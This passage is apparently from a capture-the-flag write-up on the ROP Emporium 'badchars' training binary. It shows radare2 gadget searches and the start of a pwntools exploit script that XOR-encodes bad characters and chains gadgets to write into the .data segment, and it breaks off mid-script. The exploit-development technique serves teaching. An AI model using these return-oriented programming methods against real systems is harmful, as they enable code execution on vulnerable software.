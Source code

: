 With the `mov qword [r13], r12` instruction, we can write 8 bytes at a time to the memory address in `r13`.

Next, we need to search for a ROP gadget where we can assign arbitrary values to the `r12`, `r13`, `r14`, and `r15` registers:

```
[0x00400628]> /R pop r12;
  0x0040069c               415c  pop r12
  0x0040069e               415d  pop r13
  0x004006a0               415e  pop r14
  0x004006a2               415f  pop r15
  0x004006a4                 c3  ret
```

Looks like we have a gadget at `0x0040069c`.

The last thing we need is a `pop rdi; ret;` gadget so that we can set the RDI register to the memory address we wrote to:

```
[0x00400628]> /R pop rdi;
  0x004006a3                 5f  pop rdi
  0x004006a4                 c3  ret
```

Great! We have a `pop rdi; ret;` gadget at `0x004006a3`.

## Crafting the Exploit

At this point, we should be able to verify that we can write arbitrary values to the static address in the `.data` segment!
In the code below, we set a breakpoint just before we write to the `.data` segment.

```python
from pwn import *

def encode_badchars(data, badchars, key):
    result = b""
    for b in data:
        if b in badchars:
            result += bytes([b ^ ord(key)])
            continue
        result += bytes([b])
    return result

# Set the pwntools context
context.arch = 'amd64'
context.log_level = 'debug'

# Project constants
PROCESS = './badchars'
io = process(PROCESS)

# Debugging
gdbscript = "b *0x00601028\nb *0x0040069c"
pid = gdb.attach(io, gdbscript=gdbscript)

# Initialize ROP
rop = ROP(io.elf)

# Gadgets
writable_data_segment = 0x00601029                         # .data segment
xor_r15_r14_ret = p64(0x00400628)                          # xor byte [r15], r14b; ret;
write_memory_gadget = p64(0x00400634)                      # mov qword [r13], r12; ret;
pop_r12_pop_r13_pop_r14_pop_r15_ret = p64(0x0040069c)      # pop r12; pop r13; pop r14; pop r15; ret;
```